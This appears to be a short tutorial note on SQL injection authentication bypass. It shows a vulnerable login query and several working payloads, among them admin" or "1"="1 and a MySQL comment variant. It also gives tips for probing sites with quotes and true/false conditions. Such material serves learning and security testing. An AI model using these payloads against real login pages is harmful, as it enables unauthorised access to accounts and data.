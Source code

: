 ```yaml
---
title: Classic Injection Bypass
---
```


On Login Page the value for username and password is controlled by the user

````sql
-- Backend Query Sample
SELECT * 
FROM login 
WHERE username="$USERNAME" AND password="$PASSWORD"; 
````

We can enter the values as `admin" or "1"="1` which forms valid SQL query
1=1 is always true and the OR clause nullifies the WHERE statement

````sql
SELECT * 
FROM login 
WHERE username="admin" OR "1"="1" AND password="admin" OR "1"="1";
````

\# is considered as comment in MySQL. So second half off query is ignored

````sql
SELECT * 
FROM login 
WHERE username="admin" OR 1=1#" and password="admin";
````

Depending on DB being used different types of comments can be used
For string values " or ' will be used depending on DB
If the input field only takes numbers then `1' or 1=1#` can be used
Not all websites is going to produce error so play around with ', and, or (True and False) statements are check if desired output is produced